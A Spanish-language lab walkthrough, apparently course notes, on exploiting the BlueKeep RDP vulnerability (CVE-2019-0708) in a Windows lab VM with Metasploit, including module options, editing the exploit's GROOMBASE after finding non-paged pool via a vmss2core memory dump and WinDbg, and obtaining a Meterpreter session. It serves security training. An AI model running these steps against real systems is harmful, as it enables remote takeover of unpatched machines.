Vamos a explotar alguna vulnerabilidad de la máquina windows.
Esta tiene que ver con el Remote Desktop de la máquina windows denominada BlueKeep.
Es una vulnerabilidad de una criticidad alta porque nos permitía ejecutar código de manera remota en una máquina que tuviese instalado este servicio que es muy frecuente ya que es un protocolo y un aplicación que permite controlar windows desde un escritorio remoto.
En msfconsole:
search bluekeep

Si nos fijamos bien a diferencia de los exploits que usamos en el apartado anterior en la zona de Rank estaban indicados como excelent o good, etc pero en este caso indica manual y esto es por la complejidad que tienen para poder configurarlos y ejecutarlos.
Quiere decir que en muchas ocasiones va a requerir que nosotros hagamos algún cambio al exploit, incluso al código fuente del exploit.
Por eso es importante conocer la estructura de ficheros para que pueda funcionar de manera adecuada.
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
show options

set lhost 192.168.20.131
set rhosts 192.168.20.129
Aquí nos aparece también un tema de target.

show targets
Podríamos configurar también el target, aunque si lo dejamos a cero va a tratar de identificar cuál es la categoría del target mediante recopilación activa.

set target 5
Antes de ejecutar es importante revisar la información del exploit:
info

En concreto esta parte indica que hay que poner esta clave de registro a cero que en este momento lo haremos de forma manual pero no es lo normal.





Esto se basa en inyectar código, de manera que va a cambiar el flujo de ejecución de este programa para que en lugar de ejecutar el código legítimo de esa aplicación, ejecute el código que hemos inyectado.
Ha debido de haber algún tipo de problema, porque a pesar de que se ha completado la ejecución del exploit, no ha sido capaz de crear una sesión remota.
Reintentamos.
Dice que ha tratado de hacer algún tipo de paginación.
Esto está pasando porque tal y como nos dice este exploit, cuando nosotros le damos a info nos dice que es un exploit manual y como consecuencia de ser un exploit manual, a veces va a requerir que nosotros hagamos ciertos cambios dentro del código fuente de este exploit.
Concretamente nosotros hemos tenido un fallo de paginación y lo que tenemos que hacer es que inyecte este código, en una zona donde no pagine esta memoria.
sudo emacs /usr/share/metasploit-framework/modules/exploits/windows/rdp/cve_2019_0708_bluekeep_rce.rb

Es posible que el offset que tiene puesto la dirección de memoria que tiene puesta para inyectar ese código no coincida.
En este caso con tu máquina virtual, con una zona donde no pagine la memoria y por lo tanto falle y tengas tú que establecer la dirección de manera manual para que pueda insertar ese código en una zona de memoria adecuada donde no se produzca esta paginación y funcione bien el exploit.
Estamos utilizando este objetivo y lo que tenemos que cambiar es esta parte de aquí

Groombase es la dirección de inicio a partir de la cual va a comenzar a inyectar ese código.
Vamos a necesitar algunas herramientas adicionales para poder llevar a cabo este proceso de encontrar esa dirección de comienzo de esa parte de la memoria que no realiza paginación.
En vmware workstation pro puede venir incorporada, si no:
https://drive.google.com/file/d/1x4bfCUPpaW8XBZUn4mojf9zQZ5vwnCA4/view?usp=drive_link
Vamos a necesitar un debugger como winDBG.
https://learn.microsoft.com/es-es/windows-hardware/drivers/debugger/
El debugger necesita algún archivo de memoria, un dump de memoria sobre el que trabajar.
Lo que tenemos que hacer es coger todas las direcciones de memoria que tiene esa máquina virtual, volcarlo a un fichero y buscar entre todas esas direcciones donde se encuentra la dirección donde comienza la memoria, que no pagina.
Vamos a irnos al directorio donde está nuestra máquina virtual Windows.
Es importante que no la apaguéis la máquina sino suspenderla.
Copiamos estos archivos a un nuevo directorio:

Dentro de la carpeta donde copiamos esos archivos ejecutamos vmss2core en cmd.
C:\"RUTA DE LA CARPETA DESCARGADA"\vmss2core.exe
C:\"RUTA DE LA CARPETA DESCARGADA"\vmss2core.exe -W metasploitable-win2k8-51e8b106.vmss metasploitable-win2k8-51e8b106.vmem
Lo que va a ocurrir es que esta aplicación de VMware va a hacernos un volcado de lamemoria, que es precisamente lo que nosotros necesitamos para poder analizarlo después.
Abrimos el archivo resultante con winDGB y ejecutamos:

!poolfind 0
Esto buscara la parte de la memoria que no pagina.

En este caso solo nos interesa la primera de las dos.
Volvemos al archivo del exploit en kali y:

Para volver a cargar el exploit simplemente cerramos y abrimos metasploit de nuevo.
Configuramos de nuevo el exploit y agregamos un último parámetro:
set groomsize 50

Un meterpreter tiene características más avanzadas que un shell normal.